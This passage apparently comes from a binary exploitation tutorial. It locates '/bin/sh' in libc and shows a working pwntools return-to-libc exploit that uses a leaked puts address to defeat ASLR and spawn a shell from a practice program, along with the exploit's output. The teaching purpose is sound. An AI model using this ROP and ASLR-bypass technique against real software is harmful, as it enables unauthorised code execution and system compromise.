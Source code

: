 \begin{lstlisting}
> strings -tx /lib/x86_64-linux-gnu/libc.so.6 | grep /bin/sh
 18cd17 /bin/sh
> 
\end{lstlisting}

This is everything we need in order to call \texttt{system("/bin/sh")}, as shown
by this program.

\begin{lstlisting}
#!/usr/bin/python
from pwn import *

PUTS_OFFSET   = 0x06f690
SYSTEM_OFFSET = 0x045390
BIN_SH_OFFSET = 0x18cd17

p = process("./use_leak")
p.readuntil("yours? ")
puts_leak = int(p.readline(), 16)
log.info("leaked puts address: 0x{:>8x}".format(puts_leak))
libc_base_address = puts_leak - PUTS_OFFSET
system_address    = libc_base_address + SYSTEM_OFFSET
bin_sh_address    = libc_base_address + BIN_SH_OFFSET
log.info("found libc base address: 0x{:>8x}".format(libc_base_address))
log.info("found system address: 0x{:>8x}".format(system_address))
log.info("found \"/bin/sh\" address: 0x{:>8x}".format(bin_sh_address))

rop = "A" * 40
# 0x0000000000400683 : pop rdi ; ret
rop += p64(0x400683) + p64(bin_sh_address)
rop += p64(system_address)

p.sendline(rop) 
p.interactive()
\end{lstlisting}

When run, the exploit spawns a shell.

\begin{lstlisting}
> ./use_leak_solution.py 
[+] Starting local process './use_leak': pid 4245
[*] leaked puts address: 0x7f17fbf09690
[*] found libc base address: 0x7f17fbe9a000
[*] found system address: 0x7f17fbedf390
[*] found "/bin/sh" address: 0x7f17fc026d17
[*] Switching to interactive mode
Please take a seat, we'll be with you at some point this week.
$ whoami
devneal
$  
\end{lstlisting}

\subsubsection{Making a leak}
Programs don't typically leak the addresses of their libc functions for free.
In a real program, we would have to first find a bug that causes the program to
leak an address (without crashing), then find \emph{another} bug which allows us
to leverage that information and take control. Take a look at this program,
which will run with DEP/NX and ASLR enabled.

